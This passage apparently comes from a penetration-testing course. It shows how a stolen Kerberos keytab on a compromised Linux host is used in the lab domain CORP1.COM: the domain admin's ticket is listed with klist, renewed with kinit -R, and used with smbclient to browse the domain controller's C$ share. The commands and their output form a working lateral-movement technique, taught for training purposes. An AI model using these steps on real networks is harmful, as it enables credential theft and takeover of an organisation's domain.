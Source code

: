 ```
root@linuxvictim:~# klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: administrator@CORP1.COM

Valid starting       Expires              Service principal
07/30/2020 15:18:34  07/31/2020 01:18:34  krbtgt/CORP1.COM@CORP1.COM
        renew until 08/06/2020 15:18:34
```

> Listing 69 - Viewing our loaded TGT file from the keytab

If it's been a while since the tickets were created, they may have expired. However, if it's within the renewal timeframe, we can renew it without entering a password using kinit with the -R flag.

```
root@linuxvictim:~# kinit -R
```

> Listing 70 - Renewing an expired TGT

Normally, keytab files would be written somewhere safe such as the user's home folder. In our case, since we've compromised the server entirely and have _root_ access, the location wouldn't matter.

Some users will set weak keytab file permissions for ease of use or for sharing with other accounts, so it's worthwhile to check for readable keytabs if Kerberos is in use on the system.

Now that our root user has the keytab files loaded, we can authenticate as the domain admin and access any resources they have access to.

Let's attempt to access the domain controller's C drive.

```
root@linuxvictim:~# smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Sep 15 03:19:00 2018
  Documents and Settings            DHS        0  Tue Jun  9 13:50:42 2020
  pagefile.sys                      AHS 738197504  Fri Oct  2 11:25:15 2020
  PerfLogs                            D        0  Mon Jun 15 15:04:37 2020
  Program Files                      DR        0  Mon Jun 15 08:10:03 2020
  Program Files (x86)                 D        0  Tue Jun  9 08:43:21 2020
  ProgramData                        DH        0  Mon Jun 15 15:04:37 2020
  Recovery                          DHS        0  Tue Jun  9 13:50:45 2020
  SQL2019                             D        0  Tue Jun  9 08:34:53 2020
  System Volume Information         DHS        0  Tue Jun  9 07:38:26 2020
  Tools                               D        0  Mon Jun 15 08:09:24 2020
  Users                              DR        0  Mon Jun 15 15:22:49 2020
  Windows                             D        0  Mon Jun 15 15:04:45 2020

                6395903 blocks of size 4096. 2185471 blocks available
```

> Listing 71 - Accessing the domain controller's C drive as the domain admin

Success! We can use our stolen keytab to access the domain controller using Kerberos authentication.

